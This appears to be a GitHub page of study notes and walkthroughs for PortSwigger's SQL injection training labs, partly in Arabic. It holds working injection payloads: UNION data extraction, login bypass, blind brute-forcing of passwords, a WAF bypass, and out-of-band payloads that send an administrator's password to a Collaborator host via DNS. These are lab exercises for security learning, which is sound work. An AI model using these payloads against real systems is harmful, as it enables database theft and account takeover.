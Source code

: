 # Sqli 


- <details>
	<summary>SQLI</summary>

	
	# 🕵️ SQL Injection Detection & Classification Cheat Sheet
	
	## 1. اكتشاف وجود SQL Injection
	
	### Classic Tests
	
	-   جرّب إدخال رموز لكسر الكويري:
	
	    ``` sql
	    '
	    "
	    --
	    #
	    ```
	
	-   لو ظهر Error → غالبًا **Error-based SQLi**
	
	-   لو النتيجة اتغيّرت من غير Error → ممكن **Boolean-based SQLi**
	
	-   لو الاستجابة بقت أبطأ (Delay) → ممكن **Time-based SQLi**
	
	### لو مفيش فرق واضح
	
	-   الاستجابة واحدة، مفيش Error أو Delay.
	-   هنا نشك إن في **Blind SQLi**.
	
	------------------------------------------------------------------------
	
	## 2. إمتى نستخدم Out-of-Band (OAST)?
	
	-   لما الـ Response مبيورّيكش أي فرق.
	-   لما الكويري يتنفذ Asynchronously (خلف الكواليس).
	-   نحتاج نشوف التنفيذ من خلال قناة خارجية (DNS / HTTP request).
	
	**الفكرة**: تخلي قاعدة البيانات تبعت Request خارجي ليك. - DNS Lookup →
	يظهر عندك في Burp Collaborator. - HTTP Request → يظهر برضه في
	Collaborator أو سيرفرك.
	
	------------------------------------------------------------------------
	
	## 3. تحديد نوع SQLi
	
	  -----------------------------------------------------------------------
	  النوع                                             العلامة
	  ------------------------------------------------- ---------------------
	  **Error-based**                                   رسالة خطأ واضحة
	
	  **Boolean-based**                                 فرق في النتيجة بين
	                                                    True/False
	
	  **Time-based**                                    فرق في زمن الاستجابة
	                                                    (sleep)
	
	  **Out-of-Band**                                   مفيش فرق في النتيجة
	                                                    ولا الوقت → بس تشوف
	                                                    اتصال خارجي
	  -----------------------------------------------------------------------
	
	------------------------------------------------------------------------
	
	## 4. خطوات عملية
	
	1.  **حدد الـ Input** (URL, Cookie, Header, Form).
	
	2.  **جرّب Classic Payloads**:
	
	    ``` sql
	    ' OR '1'='1
	    ```
	
	    -   Error؟ → Error-based
	    -   فرق في النتيجة؟ → Boolean-based
	    -   Delay؟ → Time-based
	
	3.  **لو مفيش حاجة ظهرت** → جرّب **Out-of-Band Payload** (مثال: DNS
	    lookup).
	
	4.  **راقب Burp Collaborator / Server Log**:
	
	    -   لو شفت اتصال → SQLi Confirmed ✅
	
	------------------------------------------------------------------------
	
	## 5. في حالة PortSwigger Lab
	
	-   الـ Query بيتنفذ **Asynchronously**.
	-   الاستجابة مش بتتغير.
	-   الحل الوحيد → **Out-of-Band SQLi** باستخدام Collaborator.
	


  </details>



- <details>
	 <summary>Out of band SQLI</summary>

	
	
	
	# Exploiting Blind SQL Injection using Out-of-Band (OAST) Techniques
	
	## 1. فكرة الهجوم
	في بعض التطبيقات، يتم تنفيذ الاستعلام SQL بشكل غير متزامن (asynchronous).  
	هذا يعني أن التطبيق يعالج طلب المستخدم في خيط (thread) واحد، بينما يتم تنفيذ الاستعلام في خيط آخر.  
	بالتالي، لن تنجح الطرق التقليدية مثل:
	- استرجاع بيانات مباشرة في الاستجابة.
	- الاعتماد على الأخطاء.
	- قياس وقت التنفيذ.
	
	لأن الاستجابة لا تتأثر مباشرة بالاستعلام.
	
	---
	
	## 2. الحل: الهجمات Out-of-Band (OAST)
	يمكن استغلال الثغرة من خلال إجبار قاعدة البيانات على **تنفيذ تفاعل شبكي خارجي** مع سيرفر نتحكم فيه (مثل Burp Collaborator).  
	هذا يسمح لنا:
	- بالتأكد من وجود الحقن.
	- أو حتى **تهريب البيانات** من خلال هذا التفاعل.
	
	---
	
	## 3. البروتوكولات المستخدمة
	يمكن استخدام بروتوكولات متعددة، لكن الأكثر شيوعًا وفعالية هو **DNS** لأنه غالبًا غير محجوب داخل الشبكات الإنتاجية.
	
	---
	
	## 4. Burp Collaborator
	Burp Suite Pro يوفر أداة اسمها **Burp Collaborator**:
	- تعطيك دومين فرعي فريد.
	- تسمح لك بمراقبة أي استعلامات DNS أو HTTP تصل من الهدف.
	- تُظهر إذا كان هناك **تفاعل خارجي** حصل بسبب البايلود.
	
	---
	
	## 5. مثال على Microsoft SQL Server
	حقن بسيط يجبر السيرفر على عمل استعلام DNS:
	```sql
	'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
	```
	هذا يسبب Lookup على:
	```
	0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
	```
	
	---
	
	## 6. استخراج البيانات (Data Exfiltration)
	يمكن استغلال نفس الأسلوب لتهريب البيانات.  
	مثال: جلب كلمة مرور الـ Administrator:
	```sql
	'; declare @p varchar(1024);
	set @p=(SELECT password FROM users WHERE username='Administrator');
	exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
	```
	ينتج عنه Lookup على دومين يحتوي على كلمة المرور:
	```
	S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
	```
	
	---
	
	## 7. أهمية OAST
	- نسبة نجاح عالية.
	- يمكن استخراج البيانات مباشرة.
	- غالبًا أفضل من تقنيات Blind الأخرى (Time-based, Boolean-based).
	
	---
	
	## 8. الوقاية من Blind SQL Injection
	منع هذا النوع من الهجمات يتم بنفس خطوات منع SQL Injection التقليدي:
	- **استخدام الاستعلامات المجهزة (Parameterized Queries / Prepared Statements).**
	- عدم دمج إدخال المستخدم مباشرة داخل الاستعلام SQL.
	
	
	



  </details>


-----

# **`sqli Labs`**

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
' UNION SELECT 'abc','def'#
```

* ```
  ' UNION+SELECT @@version, NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  ' UNION SELECT table_name,+NULL FROM information_schema.tables--
  ' union select table_name,null from all_tables --
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qtmswl'--
  ' union select column_name,null from all_tab_columns where table_name='USERS_KWPGKQ'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>







<details>
	<summary>Lab: SQL injection UNION attack, finding a column containing text</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


---

```url
/filter?category=Gifts' union select 'a',NULL,NULL --
```

```url
/filter?category=Gifts' union select NULL,'a',NULL --    <== correct one
```

```url
/filter?category=Gifts' union select NULL,NULL,'a' --
```
 
</details>










<details>
	<summary>Lab: SQL injection UNION attack, retrieving data from other tables</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user. 

---


```url
/filter?category=Pets' union select null,null--
```


```url
/filter?category=Pets' union select username,password from users --
```

* ```
  wiener
	n94f86gz294x7zoonr1z
  administrator
	necgrjfgn42l9sxu160v
  carlos
	sunapc1n4575hvqzdaa1
  ```







 
</details>














<details>
	<summary>Lab: SQL injection UNION attack, retrieving multiple values in a single column</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user.


---

do concatenate to values in one column 

```url
/filter?category=Gifts' union select null,username ||' ==> '|| password from users --
```

![image](https://github.com/user-attachments/assets/3e6dd0bf-cb7c-4d21-92e5-14177f69629e)


* ```
  administrator ==> qicuka8mgvvmtdzjsk76
  wiener ==> y48w02o728mfhp76c9u3
  carlos ==> n4k3vrh25quekpp6ieje
  ```

 
</details>





---


<details>
	<summary>Lab: Blind SQL injection with conditional responses (boolan)</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> #### The results of the SQL query are not returned, and no error messages are displayed. But the application includes a ``Welcome back`` message in the page if the query returns any rows.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the ``administrator`` user. 



---


```http
GET / HTTP/1.1

Host: 0ab3003c04435bb280113582003400f4.web-security-academy.net
Cookie: TrackingId=sBgKk2u4kNA0mWuX; session=vLPAZFMJ5ApvFggeT85YmjbwpttZwrj8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

Notice :

```http
TrackingId=sBgKk2u4kNA0mWuX;
```

First to check if it vuln or not 

```
TrackingId=sBgKk2u4kNA0mWuX' and 1=1 --;
```
notice ``Welcome Back`` appear in page

![image](https://github.com/user-attachments/assets/738470a1-011a-4fa1-bd7e-c8a655248a27)

now make sure that there is user call ``adminstrator`` by using subquery check :

```sql
' and (SELECT  'a' FROM users WHERE username='administrator')='a' --
```

if user exist

* ```sql
  ' and 'a' = 'a' --  == True
  ```

Now start Exploiting

```
' and (SELECT  'a' FROM users WHERE username='administrator' AND LENGTH(password)=1 )='a' --
```
send request to intruder and put numbers instead of 1 until 30 for example and grep&match ``Welcome back!``see when it change the response here it is ``20``

![image](https://github.com/user-attachments/assets/29e4e810-5dbe-47e1-9e7e-31e3fefdb857)


```http
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
```

```sql
' and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
                                 [1]                                              [2]
```

> first ``1`` refer to first char from passowrd second ``1`` refer to this query will retrun one char 

IN INTRUDER MAKE ATTACK TYPE FROM sniper TO cluster bomb TO MULTIPLE PAYLOAD { [1],[2] } NOW IN FIRST PAYLOAD [1] MAKE IT TRY 
      FROM 1 TO 20 AND IN SECOND PAYLOAD [2] TRY FORM [a-z+0-9] AND IN SETTINGS OF INRUDER MAKE GREP-MATCH WITH YOUR VALUE 
      IN THIS EXAMPLE IS " Welcome Back! " NOW IT WILL BRUTE FORCE AND YOU WILL GIT THE PASSWORD

```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 p    m    i    w    y    x    x    o    a    o     z     p     b     1     x     o     c     m     q    j
```

```
pmiwyxxoaozpb1xocmqj
```
 
</details>







<details>
	<summary>Lab: Blind SQL injection with conditional errors</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> #### The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 

---

to check --- internal server error---  add ``'``

```url
TrackingId=Gpf75xlv9ccLL8ZV'
```

now it injectable to what kind?? 

```url
0iLsW0UwGLuOfA5J' and 1=1 --    no error
0iLsW0UwGLuOfA5J' and 1=0 --    no error        
```

there is no error so it is not boolan blind injunction

now to detrmine it error based:

```url
TrackingId=Gpf75xlv9ccLL8ZV''  no error
```
no error appear that is mean we can do subqery inside ``' '``

to make sure that there is user called ``administrator``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT '' FROM users WHERE username='administrator') || '--
```

no error so there is user call ``administrator`` but wait if you try to but wrong user for example 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (select '' from users where username='plaplapla') || '--
```

no error also ⚠️⚠️

so how to make sure if really there is user call ``administrator`` :

```url
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    error  appear because 1/0
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    no error 
```

now try to know if there is user call ``administrator`` with same way 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'--
```

here he check **first** if there is user call ``administrator`` if there is will excute ``SELECT CASE`` statement and there will be error 

but if there is no user called ``administrator`` the ``SELECT CASE`` will not excuted and no error will appear 

now if we try fake suer ``plaplapla``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='plaplapla') ||'--
```
no error appear so user not exist

now we want to konw length of passowrd:

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)=1) ||'--
```
send to intruder and select ``1`` and put value form ``1 to 30`` and when error appear that will be the length

![image](https://github.com/user-attachments/assets/400863d8-0caa-451c-bfcb-5ef297434b01)

so passowrd length is **``20``**

now brute force it :

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a')||'--
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 y    0    x    9    p    0    p    2    c    i     2     q     1     i     u     n     d     r     x    q
```

```
y0x9p0p2ci2q1iundrxq
```


 
</details>









<details>
	<summary>Lab: Visible error-based SQL injection  (visible errors)</summary>


> ###  This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``. To solve the lab, find a way to leak the password for the ``administrator`` user, then log in to their account.

---


```url 
XGb1lTKF70BvkHkM'                 error appear
XGb1lTKF70BvkHkM'--               error disappear      so it is vulnerable 
```

```url
TrackingId=E4OUmE1Kd6YYqUU2' and CAST((SELECT 1) AS int)--
TrackingId=E4OUmE1Kd6YYqUU2' and 1 ==> (int) not (boolean)
```

![image](https://github.com/user-attachments/assets/c4fa4f22-4984-4cc3-a7de-6b41cd188579)


```url
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT 1) AS int)--   no errors
TrackingId=E4OUmE1Kd6YYqUU2' and 1=1
TrackingId=E4OUmE1Kd6YYqUU2' and True
```

now exploit

```
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/28b17321-de6a-417c-959c-31579dac836b)


> error because the request is too long so we clear tracking id

```
TrackingId=' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/d12ac037-ac94-4a24-a532-b88dd0cf9c4c)

now try to appear first row as error but has name of first user

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/user-attachments/assets/e1006871-fea9-49c0-a530-bcd979c739ad)

it work so first user is ``administrator``

now appear first password as error

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- 
```

![image](https://github.com/user-attachments/assets/ddcdd86d-847b-47cc-b3aa-b7b767588680)

```
administrator : cuqjexnaphj1h9gz3b6y
```


 
</details>











<details>
	<summary>Lab: Blind SQL injection with time delays</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

---

```url
TrackingId=1Pe7nqjCl5ZZt9q7' ||(SELECT pg_sleep(10))--'
```


 
</details>









<details>
	<summary>Lab: Blind SQL injection with time delays and information retrieval</summary>


> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 


---

First test if vuln by make delay ``10s``

```url
TrackingId=UEptVxSAS3n40Lpj'||(SELECT pg_sleep(10)) --
```

and it work so it vulnarable 

now we want to make sure that there is user called ``administrator``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

delay happend so user is exist 

now will find passowrd length by send this request to intruder and change 1 to range form ``1 to 30``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and LENGTH(password)=1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

![image](https://github.com/user-attachments/assets/653beef2-c0e8-4309-aab0-51eeeb150031)

so length is ``20``

now do brute force to find password

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and substr(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```


<details>
	<summary>the payload</summary>

```
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
0
1
2
3
4
5
6
7
8
9
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
```

 
</details>


```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 f    n    v    q    9    x    0    4    m    z      f    r     j     8     x      2    t      d     1   o
```


**``Password``**

```
fnvq9x04mzfrj8x2td1o
```
 
</details>












---

<details>
	<summary>Lab: SQL injection with filter bypass via XML encoding</summary>

> ###  This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

> The database contains a ``users`` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

* <details>
	<summary>Hint</summary>

	> ## A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the **``Hackvertor``** extension to do this. 
 
  </details>


---

to know how number of columns

```
<storeId>1 UNION SELECT NULL</storeId>
```

but but the firewall will send forbidden 

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17


"Attack detected"
```

from ``hackvertor`` do encode to ``UNION SELECT NULL`` using ``hex_entities`` that you bypass the firewall

```html
1 <@hex_entities> UNION SELECT NULL </@hex_entities>
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14



921 units
null
```

so it have 1 column now get username and password 

```html
1 <@hex_entities>

UNION SELECT username || ' = ' || password FROM users

</@hex_entities>
```


```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 106



carlos = 7pvl2i5kf9bz7cmzq9pc
administrator = 9soloagn82b9rgya99uw
wiener = ee0as2ryc270mq7aw8ir
921 units
```


 
</details>







---


<details>
	<summary>Lab: Blind SQL injection with out-of-band interaction</summary>



```http
GET / HTTP/2
Host: 0a0c00a504d6b17e8011087100b00049.web-security-academy.net
Cookie: TrackingId=9i21anLCGt7ftKQN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//kqe26m39irpxxcvbe2vwq8yrxi39r3fs.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=Z6loZ0pQZQYFOxZDUXj5QNDj5oM2LMnE
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

### **`the payload`**

```url
TrackingId=9i21anLCGt7ftKQN'+UNION+SELECT+EXTRACTVALUE(xmltype('
<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
<!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//kqe26m39irpxxcvbe2vwq8yrxi39r3fs.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```


<img width="1916" height="483" alt="image" src="https://github.com/user-attachments/assets/bb41b5d7-097c-49b9-8a2c-7761d89893d6" />



- <details>
   
   <img width="812" height="623" alt="image" src="https://github.com/user-attachments/assets/0c6005a4-919a-4a22-bd6b-94fbb597f509" />

 
  </details>



 
</details>









<details>
	<summary>Lab: Blind SQL injection with out-of-band data exfiltration</summary>





```http
GET / HTTP/2

Host: 0a5d00a904001c92814e203400120057.web-security-academy.net
